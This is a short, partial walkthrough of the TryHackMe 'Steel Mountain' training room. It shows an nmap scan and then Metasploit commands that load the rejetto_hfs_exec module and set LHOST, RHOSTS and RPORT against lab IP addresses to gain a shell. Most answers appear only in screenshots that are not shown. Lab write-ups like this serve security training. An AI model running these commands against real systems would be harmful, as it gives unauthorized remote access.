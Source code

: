 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

`nmap -A` 10.10.248.189

![](<../../.gitbook/assets/image (7).png>)

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

`msfconsole`&#x20;

`use exploit/windows/http/rejetto_hfs_exec`&#x20;

`set LHOST 10.10.62.157`&#x20;

`set RHOSTS 10.10.181.159`&#x20;

`set RPORT 8080\`

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

``
